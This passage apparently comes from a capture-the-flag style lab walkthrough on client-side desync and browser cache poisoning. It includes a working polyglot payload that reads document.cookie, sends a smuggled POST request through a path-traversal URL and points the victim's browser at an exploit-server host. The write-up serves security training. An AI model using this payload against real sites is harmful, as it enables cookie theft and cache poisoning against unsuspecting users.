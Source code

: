 When the browser loads the page as HTML, it will only execute the JavaScript in the `<script>` tags. When it eventually loads this in a JavaScript context, it will only execute the `alert()` payload, treating the rest of the content as arbitrary developer comments.

**Now, go back to the exploit server, host the following payload, and deliver it to victim:**
```js
alert(document.cookie);
/*
<script>
    const labURL = "https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net";
    const exploitHost = "exploit-0af6007803d9848ac020db8601250091.exploit-server.net";

    if(window.name != 'skip'){
        window.name = 'skip';
        fetch(`${labURL}/..%2f`, { method: 'POST', body: `GET //${exploitHost}/eXpLoIt HTTP/1.1\r\nFoo: x`, credentials: 'include', mode: 'no-cors' }).then(() => {location=`${labURL}/resources/js/analytics.js`} );
    } else {
        window.name = '';
        location = `${labURL}/login`;
    }
</script>
*/
```

- The first time the browser window loads the page, it poisons its own cache via the `fetch()` script that you just tested.
- The second time the browser window loads the page, it performs a top-level navigation to the login page containing the JavaScript import.
